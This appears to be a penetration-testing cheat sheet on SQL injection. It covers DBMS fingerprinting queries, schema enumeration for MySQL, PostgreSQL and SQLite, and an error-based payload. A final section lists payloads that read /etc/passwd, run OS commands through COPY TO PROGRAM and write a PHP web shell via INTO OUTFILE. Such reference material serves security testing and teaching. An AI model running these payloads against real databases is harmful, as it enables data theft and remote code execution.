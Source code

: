 ```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "server-side"
weight: 620
toc: true
---
```


## Definition

**SQL injection** allows attackers to execute malicious SQL queries through user input areas, potentially accessing, modifying, or deleting data.

## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL           | SQLite              | MySQL               |
| -------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`         | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`           | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`            | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`         | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)`  | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`        | *Unknown*           | `SLEEP(4)`          |
| `SIMILAR TO`, `~`    | `REGEXP`, `GLOB`    | `REGEXP`            |

### Testing & Documentation

- [PostgreSQL - Online](https://onecompiler.com/postgresql/) - [Docs](https://www.postgresql.org/docs/)
- [MySQL - Online](https://onecompiler.com/mysql/) - [Docs](https://dev.mysql.com/doc/refman/8.0/en/)
- [MariaDB - Online](https://onecompiler.com/mariadb/)
- [Microsoft SQL Server - Online](https://onecompiler.com/sqlserver)
- [Oracle - Online](https://livesql.oracle.com/)
- SQLite3: run the command `sqlite3` - [Docs](https://www.sqlite.org/docs.html)

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT datname FROM pg_database;
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## Error based

### PostgreSQL

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

## File read/write & RCE

### PostgreSQL

```
SELECT pg_ls_dir('.');
SELECT pg_read_file('/etc/passwd');
COPY (SELECT '') TO PROGRAM 'sleep 5';
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
